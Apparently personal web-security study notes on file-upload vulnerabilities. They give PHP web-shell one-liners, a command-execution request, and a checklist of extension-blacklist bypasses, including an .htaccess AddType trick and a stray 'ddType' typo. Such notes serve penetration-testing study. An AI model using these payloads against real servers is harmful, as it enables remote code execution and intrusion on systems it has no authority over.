 `<?php echo file_get_contents('/path/to/target/file'); ?>`
`<?php echo system($_GET['command']); ?>`
`GET /example/exploit.php?command=id HTTP/1.1`

# Checklist
- Directory Traversal Upload
- Extension blacklist bypass
	- `.htaccess` -> `ddType application/x-httpd-php .l33t`
		- Executes `.l33t` as PHP
- Provide multiple extensions
	- `exploit.php.jpg`
- Add trailing characters
	- `exploit.php.`
- URL encoding (or double URL encoding)
	- `exploit%2Ephp`
- Add semicolons or URL-encoded null byte characters

### Extension blacklist bypass
- Change the value of the `filename` parameter to `.htaccess`.
- Change the value of the `Content-Type` header to `text/plain`.
- Replace the contents of the file (your PHP payload) with the following Apache directive:
    
    `AddType application/x-httpd-php .l33t`
    
    >This maps an arbitrary extension (`.l33t`) to the executable MIME type `application/x-httpd-php`. As the server uses the `mod_php` module, it knows how to handle this already.
    
- Upload `exploit.l33t` as PHP webshell